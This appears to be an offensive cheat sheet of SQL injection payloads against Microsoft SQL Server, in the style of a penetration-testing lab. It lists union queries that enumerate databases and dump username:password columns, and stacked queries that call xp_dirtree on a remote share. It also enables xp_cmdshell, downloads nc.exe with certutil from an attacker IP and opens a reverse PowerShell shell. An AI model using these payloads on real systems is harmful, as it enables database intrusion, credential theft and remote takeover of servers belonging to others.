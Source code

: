 ##### Database names and ID's
```sql
user
db_name(5)
union select name,id from <db>..sysobjects where xtype='u'-- -
union select concat(name,':',id) from <db>..sysobjects where xtype='u'-- -
union select 1,(select string_agg(concat(name,':',id), '|') from <db>..sysobjects where xtype='u')-- -
```

```sql
Select @@version;
Select name from sys.databases;
select * from master.information_schema.tables;
select * from master..users;
```

##### Enumerate columns
```sql
union select (select string_agg(name, '|') from <db>..syscolumns where id='<dbID>')
```

##### Dump columns
```sql
union select 1,(select string_agg(concat(username,':',password), '|') from <table>)-- -
```

##### Query Stacking with `;`
```sql
q=fast'; exec xp_dirtree '\\10.10.14.6\adot8';-- -
```

##### RCE`
```sql
sp_configure 'show advanced options', '1'
RECONFIGURE
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

```sql
'EXEC sp_configure 'show advanced options',1-- -
'RECONFIGURE-- - 
'EXEC sp_configure 'xp_cmdshell',1-- -
'RECONFIGURE-- -
```

```sql
'EXEC xp_dirtree "\\192.168.45.237\adot8"-- -
```

```sql
'EXEC xp_cmdshell 'certutil.exe -f -urlcache "http://192.168.45.237/nc.exe" C:\programdata\nc.exe'-- -
'EXEC xp_cmdshell 'powershell.exe -c "C:\Programdata\nc.exe -e powershell.exe 192.168.45.237 1337"'-- -
```